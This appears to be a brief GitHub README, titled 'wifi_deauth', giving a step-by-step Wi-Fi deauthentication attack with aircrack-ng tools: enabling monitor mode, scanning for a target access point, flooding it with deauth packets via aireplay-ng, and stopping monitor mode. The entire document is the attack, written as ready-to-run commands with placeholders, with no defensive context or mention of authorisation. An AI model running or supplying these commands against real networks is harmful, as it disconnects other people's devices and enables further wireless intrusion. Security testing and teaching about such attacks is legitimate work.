 # wifi_deauth

## Put Wi-Fi Adapter into Monitor Mode:

        sudo airmon-ng start <interface>

## Identify Target Access Point (AP):

        sudo airodump-ng <interface>

## Deauthenticate Devices from the AP:

        sudo aireplay-ng --deauth <number_of_deauth_packets> -a <BSSID> <interface>

## Stop Monitor mode

        sudo airmon-ng stop <interface>


